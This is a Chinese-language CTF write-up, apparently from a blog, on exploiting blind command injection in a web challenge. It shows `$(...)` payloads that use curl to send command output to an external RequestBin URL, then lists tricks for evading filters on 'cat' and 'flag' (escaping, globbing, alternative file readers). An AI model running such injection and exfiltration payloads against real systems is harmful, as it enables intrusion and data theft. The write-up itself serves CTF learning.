``` & | ; cat flag ` ```

那就來試一下 `$(sleep 3)`
成功的讓網頁 sleep 了 3 秒 表示這樣是可行的

那就試試看 `$(ls)` 發現並沒有回傳東西
可以猜測這題並不會把 system 的運行結果回顯在網頁上
於是要嘗試讓執行結果輸出到自己這邊

開始建構 Payload 
這邊使用的是 https://requestbin.net 

開一個 private 的 RequestBin

![](https://i.imgur.com/tfz1uP3.png)

那就開始建構 payload 吧

首先先讓他 curl 我的 RequestBin

`$(curl http://requestbin.net/r/1frffe51)`

接著讓他把 command 的執行結果用 POST 的方式傳到我的 RequestBin 上
這邊先示範 ls 當前資料夾

`$(curl -d "$(ls ./)" http://requestbin.net/r/1frffe51)`

> 若是 `-d $(ls ./)` 沒加上 ""
> 會導致執行結果若是出現換行就會出現 Error
> 第一行之後的每一行都會被當成新的 command 來執行

回到 RequestBin 上 refresh 就會看到 ls 的結果了

![](https://i.imgur.com/Ewqnn7O.png)

接著會遇到兩個問題
1. 這題會擋掉 cat
2. 這題也會擋掉 flag

那麼針對這兩點來分別解決

1. cat 迴避方式
    - `head` 讀取檔案
    - `diff` 比較檔案
    - `c\at` 反斜線迴避
    - `c''at` 引號內空值
    - `od` 8 進位讀取檔案
        - -a 輸出 ascii 
    - `bzmore` 讀取檔案
    - `/???/??t` == `/usr/cat`
    - `grep` 搜尋檔案內符合條件的字串
        - `-i` 忽略大小寫
        - `-P` 配合正規表達式
        - `-r` 讀取當前資料夾下所有檔案 並且尋找符合的結果
    - `tail` 讀取檔案最後的部分
    - `cut` 讀取檔案特定範圍
        - -b 輸出特定範圍的 bytes
            - `-b n` 輸出第 n 個字
            - `-b n-` 第 n 到最後一個字
            - `-b n-m` 輸出 n ~ m 的字
            - `-b -m` 輸出 m 前面的字
    - `sed` 文字內容處理
        - `sed 'r' <file>` 讀取檔案

```